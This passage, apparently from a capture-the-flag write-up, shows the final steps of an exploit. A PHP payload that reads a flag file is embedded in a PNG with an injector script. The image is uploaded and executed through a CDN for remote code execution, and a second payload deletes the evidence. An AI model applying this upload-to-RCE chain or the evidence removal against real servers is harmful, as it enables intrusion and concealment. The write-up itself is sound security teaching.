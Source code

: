 ```py
```

We can then build our final exploit...

```php
<?php
file_put_contents("/var/www/html/uploads/.psibetarho.png", file_get_contents("/flag"));
?>
```

> Note: Originally I wrote this payload to do a webhook call, which worked with local testing but not on remote :pensive:. We'll have to use the old temp-file-write trick instead!

...turn it into an image...

```sh
$ php injector.php  "$(cat ../exploit.php)" ../payload.png
```

![payload.png](../../resources/9cf3758b869245aeb8b10e57e7f0faa8.png)

...upload it...

![203a91a04ace8b8d4cf4249708d590ec.png](../../resources/f679da3837e943c4a0d5c2ada5a0d89e.png)

...and then commit identity theft on the CDN:

![117269c8e7bce8bc5390c91eaeabdb46.png](../../resources/fe48cea3c36345b68e08015b0bd7f7a6.png)

![507fb9e7441645f755450bbd85cf2272.png](../../resources/47c9b3f97e6543f5965777dea3024a4b.png)

And there's the flag. Woohoo!

## bonus: removing the evidence

At this point we have arbitrary RCE on the server, which means that to get rid of the file with the flag in it all we have to do is to deploy a second payload using `unlink`:

```php
<?php
unlink("/var/www/html/uploads/.psibetarho.png");
?>
```

![1cf6ccfa04082e2707c0f9a57f15620f.png](../../resources/39f4f71ac13b4e3facbecd6cf3eb5a50.png)
